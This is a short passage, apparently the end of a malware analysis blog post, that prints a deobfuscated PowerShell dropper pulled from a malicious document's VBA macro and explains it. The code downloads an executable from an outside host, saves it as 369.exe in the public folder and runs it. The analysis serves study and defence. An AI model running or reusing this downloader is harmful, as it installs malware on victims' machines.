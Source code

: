 

    $VWc=new-object Net.WebClient;
    $wIt='<http://t95dfesc2mo5jr.com/RTT/opanskot.php?l=targa2.tkn'.Split('@')>;
    $jzK = '369';
    $Aiz=$env:public+'\\'+$jzK+'.exe';
    foreach($fqd in $wIt) {
      try{
        $VWc.DownloadFile($fqd, $Aiz);
        Invoke-Item $Aiz;break;
      } catch{
      }
    }



So, it downloads a file from
`http://t95dfesc2mo5jr.com/RTT/opanskot.php?l=targa2.tkn`, saves it as
369.exe in the public folder, and runs it.

A Google search of that url shows that it is malicious (not surprising)
and that it was registered the day before the document was sent:

![](/img/1536979478601.png){width="500"}

## Summary

There's nothing particularly interesting about this malware. But getting
comfortable with linux command line tools for pulling VBA out of
documents and deobfuscating is a skill that's worth developing and
practicing. Hopefully this was helpful (leave a comment if so!).






